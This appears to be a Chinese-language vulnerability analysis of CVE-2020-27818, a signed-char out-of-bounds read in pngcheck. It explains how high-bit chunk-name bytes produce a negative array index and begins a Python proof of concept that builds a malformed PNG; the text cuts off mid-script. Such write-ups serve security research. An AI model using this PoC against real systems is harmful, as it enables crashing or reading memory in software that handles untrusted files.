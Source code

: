 ```c title="pngcheck.c" linenums="282"
static const uch ascii_alpha_table[256] = {
  0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
  0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
  0,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,0,0,0,0,0,
  0,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,0,0,0,0,0,
  0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
  0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
  0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
  0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0 
};
```

当 `chunk_name` 中字符的高位为 `1` 时（值大于 0x7F），强制转换为 `int` 会成为负值，将其作为数组下标访问 `ascii_alpha_table` 就会导致缓冲区越界读取。

例如，如果 chunk 名中包含字符 0x80，转换为 `int` 后会变成 `-128`，超出了 `ascii_alpha_table` 的范围。

## 漏洞复现

### 触发条件

漏洞触发需要满足以下条件：

- PNG 文件中的 chunk 名称字符包含高位字节（值大于 0x7F）
- 在有符号 `char` 的平台上运行程序

### 漏洞利用

以下 PoC 使用 [construct](https://github.com/construct/construct) 库构造一个包含恶意 chunk 的最小合法 PNG 文件。虽然仅需 PNG 签名和恶意 chunk 就能触发漏洞，但这里构造了一个完整的 PNG 文件（包含 IHDR、IDAT 等必需 chunks），使其能被图片查看器正常打开。

```python title="poc.py" linenums="1"
#!/usr/bin/env python3
"""
POC for CVE-2020-27818 - pngcheck Out-of-bounds Read
Creates a minimal valid PNG file with a malformed chunk
name to trigger array index overflow
"""

import argparse
import zlib

from construct import Bytes, Const, GreedyRange, Int32ub, Struct, this

Chunk = Struct(
    "length" / Int32ub,
    "type" / Bytes(4),
    "data" / Bytes(this.length),
    "crc" / Int32ub,
)

PNG = Struct(
    "signature" / Const(b"\x89PNG\r\n\x1a\n"),
    "chunks" / GreedyRange(Chunk),
)


def calc_crc(chunk_type: bytes, chunk_data: bytes) -> int:
    return zlib.crc32(chunk_type + chunk_data) & 0xFFFFFFFF


def create_chunk(chunk_type: bytes, chunk_data: bytes) -> dict:
    return {
        "length": len(chunk_data),
        "type": chunk_type,
```
